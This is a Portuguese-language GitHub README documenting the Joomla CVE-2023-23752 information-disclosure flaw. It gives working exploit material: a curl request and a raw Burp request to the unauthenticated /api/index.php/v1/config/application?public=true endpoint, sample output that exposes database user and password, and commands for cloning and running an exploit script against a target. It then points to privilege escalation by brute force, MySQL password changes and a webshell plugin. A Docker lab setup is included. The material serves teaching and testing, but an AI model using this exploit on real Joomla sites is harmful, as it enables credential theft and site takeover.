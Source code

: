 # [CVE-2023-23752](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23752) Joomla! | Acesso impróprio de arquivos não autorizados

**Versão 4.0.0 a 4.2.7**

**Score [5.3 MEDIUM](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)**

Para mais informações sobre a correção da falha:
https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html

Exemplo:

root@server:/# curl http://localhost:8080/api/index.php/v1/config/application?public=true

{"links":{"self":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"Este site est\u00e1 fora do ar para manuten\u00e7\u00e3o.<br>Por favor, verifique novamente em breve.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"CVEpedia","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"joomladb","id":224}},{"type":"application","id":"224","attributes":**{"user":"root","id":224}}**,{"type":"application","id":"224","attributes":**{"password":"123pass123"**,"id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"f4jpq_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}

## A Falha

A falha permite o acesso impróprio ao endpoint específico exibindo as credências do banco de dados em texto claro.

A URL vulnerável:

```http://<IP_ALVO>:8080/api/index.php/v1/config/application?public=true```

#### Falha pelo Burp
```
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Falha via Curl

```
$ curl http://localhost:8080/api/index.php/v1/config/application?public=true
```

#### Exploit

```
git clone https://github.com/luisfelipe146/CVEpedia/tree/main/CVE-2023-23752
```

```
cd CVE-2023-23752
chmod +x CVE-2023-23752.sh
./CVE-2023-23752.sh localhost 8080
```

É possível acessar o banco de dados MYSQL com as credências obitadas e coletar a informação de qual o nome do super usuário e/ou alterar a senha.

##### Escalação de Privilégios

Através de Brute Force no Super Usuário ou trocando a senha pelo MYSql
https://vulncheck.com/blog/joomla-for-rce

Instalando um WebShell via plugins

https://github.com/p0dalirius/Joomla-webshell-plugin

Dicas

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

## Criando um Ambiente de testes via Docker 

Utilizando arquivo **yml**

```
version: '3.1'

services:
  joomla:
    image: joomla:4.2.7-php8.1-apache
    restart: always
    links:
      - joomladb:mysql
    ports:
      - 8080:80
    environment:
      JOOMLA_DB_HOST: joomladb
      JOOMLA_DB_PASSWORD: 123pass123 

  joomladb:
    image: mysql:5.6
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: 123pass123
```




